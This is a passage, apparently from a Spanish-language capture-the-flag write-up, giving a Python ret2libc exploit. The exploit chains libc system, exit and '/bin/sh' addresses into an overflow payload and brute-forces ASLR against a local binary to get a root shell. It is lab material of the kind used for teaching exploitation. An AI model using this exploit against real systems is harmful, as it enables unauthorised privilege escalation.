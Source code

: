 ```python
system_addr = pack("<I", base_libc + system_addr_offset)
exit_addr = pack("<I", base_libc + exit_addr_offset)
bin_sh_addr = pack("<I", base_libc + bin_sh_addr_offset)

payload = junk + system_addr + exit_addr + bin_sh_addr

# Lanzamos el bucle infinito hasta que la direccion sea la buena
while True:
    #lanzamos el subprocess y almazenamos el codigo de estado en una variable ret
    ret = call(["/home/ayush/.binary/rop", payload])
    # Si el codigo de estado es exitoso salimos del programa
    if ret == 0:
        print("\n[+] Saliendo del programa...\n")
        sys.exit(0)
```

lanzamos el script con 
```bash
 python exploit.py 
```
 y esperamos de salir del bucle infinito para ganar la shell como root y leer la flag.
